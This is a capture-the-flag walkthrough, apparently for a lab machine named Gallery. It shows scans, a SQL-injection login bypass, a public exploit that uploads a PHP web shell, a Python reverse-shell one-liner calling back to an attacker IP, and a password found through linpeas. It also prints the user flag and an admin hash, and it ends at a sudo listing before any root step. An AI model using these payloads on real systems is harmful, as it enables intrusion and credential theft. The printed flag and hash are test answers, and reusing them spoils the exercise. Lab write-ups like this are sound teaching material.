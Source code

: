 nmap
```
└─$ sudo nmap -sX -Pn -sV 10.10.20.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-10 11:01 PDT
Nmap scan report for 10.10.20.57
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.37 seconds

```

10.10.20.57 redirects to `http://10.10.20.57/gallery/login.php`

gobuster 
```
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,js -u 10.10.20.57/gallery
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.20.57/gallery
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              js,php,txt,html
[+] Timeout:                 10s
===============================================================
2022/07/10 11:04:24 Starting gobuster in directory enumeration mode
===============================================================
/.hta.js              (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.hta.php             (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.hta.html            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/.htaccess.html       (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htaccess.js         (Status: 403) [Size: 276]
/.htpasswd.html       (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd.js         (Status: 403) [Size: 276]
/404.html             (Status: 200) [Size: 198]
/albums               (Status: 301) [Size: 319] [--> http://10.10.20.57/gallery/albums/]
/archives             (Status: 301) [Size: 321] [--> http://10.10.20.57/gallery/archives/]
/assets               (Status: 301) [Size: 319] [--> http://10.10.20.57/gallery/assets/]  
/build                (Status: 301) [Size: 318] [--> http://10.10.20.57/gallery/build/]   
/classes              (Status: 301) [Size: 320] [--> http://10.10.20.57/gallery/classes/] 
/config.php           (Status: 200) [Size: 0]                                             
/create_account.php   (Status: 200) [Size: 8]                                             
/database             (Status: 301) [Size: 321] [--> http://10.10.20.57/gallery/database/]
/dist                 (Status: 301) [Size: 317] [--> http://10.10.20.57/gallery/dist/]    
/home.php             (Status: 500) [Size: 0]                                             
/inc                  (Status: 301) [Size: 316] [--> http://10.10.20.57/gallery/inc/]     
/index.php            (Status: 200) [Size: 16844]                                         
/index.php            (Status: 200) [Size: 16844]                                         
/login.php            (Status: 200) [Size: 7995]                                          
/plugins              (Status: 301) [Size: 320] [--> http://10.10.20.57/gallery/plugins/] 
/report               (Status: 301) [Size: 319] [--> http://10.10.20.57/gallery/report/]  
/uploads              (Status: 301) [Size: 320] [--> http://10.10.20.57/gallery/uploads/] 
/user                 (Status: 301) [Size: 317] [--> http://10.10.20.57/gallery/user/]    
```


searchsploit for Simple Image Gallery
```
└─$ searchsploit simple image gallery
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Joomla Plugin Simple Image Gallery Extended (SIGE) 3.5.3 - Multiple Vulnerabilities                                         | php/webapps/49064.txt
Joomla! Component Kubik-Rubik Simple Image Gallery Extended (SIGE) 3.2.3 - Cross-Site Scripting                             | php/webapps/44104.txt
Simple Image Gallery 1.0 - Remote Code Execution (RCE) (Unauthenticated)                                                    | php/webapps/50214.py
Simple Image Gallery System 1.0 - 'id' SQL Injection                                                                        | php/webapps/50198.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

I read the exploit for 50214.py and saw it was doing a simple sql injection to bypass the login.php page, so I manually entered the sql injection code without using the exploit script.
`admin' or '1'='1'#` and I was able to login.

I tried out the exploit script and got RCE.

script
```
└─$ python3 *.py                                                                                                                                              
TARGET = 10.10.20.57:8080
Login Bypass
shell name TagonhhxovcfuuxhlliLetta

protecting user

User ID : 1
Firsname : Adminstrator
Lasname : Admin
Username : admin

shell uploading
- OK -
Shell URL : http://10.10.20.57/gallery/uploads/1657477080_TagonhhxovcfuuxhlliLetta.php?cmd=whoami

```
`http://10.10.20.57/gallery/uploads/1657477080_TagonhhxovcfuuxhlliLetta.php?cmd=whoami` and the response was `www-data`.

I then injected the below line into the `cmd=` parameter in the url, and I got a reverse shell.
`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.248.108",1111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`

I then tried to see `user.txt` but I need to be user `mike` to do so. I uploaded linpeas.sh and began enumerating the machine.

linpeas.sh
```
╔══════════╣ Searching passwords in history files
      @stats   = stats                                                                                                                                        
      @items   = { _seq_: 1  }
      @threads = { _seq_: "A" }
sudo -lb3stpassw0rdbr0xx
sudo -l
```

Ohhh, a password. I was able to su to `mike` using `b3stpassw0rdbr0xx`.

```
mike@gallery:~/documents$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```

user.txt == `THM{af05cd30bfed67849befd546ef}`


admin    | a228b12a08b6527e7978cbe5d914531c
